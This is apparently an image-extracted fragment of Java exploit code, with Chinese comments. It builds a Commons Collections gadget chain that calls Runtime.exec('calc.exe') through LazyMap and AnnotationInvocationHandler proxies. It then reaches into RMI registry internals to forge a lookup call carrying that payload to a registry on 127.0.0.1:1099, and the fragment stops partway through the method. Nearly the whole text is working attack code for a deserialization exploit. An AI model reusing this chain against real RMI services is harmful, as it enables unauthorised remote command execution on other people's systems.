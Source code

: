 ```

import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;


public class Client2 {

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        Map map = (Map)constructor.newInstance(innermap,chain);


        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler); //创建proxy对象


        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Override.class,proxy_map);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, handler));
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);

        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
```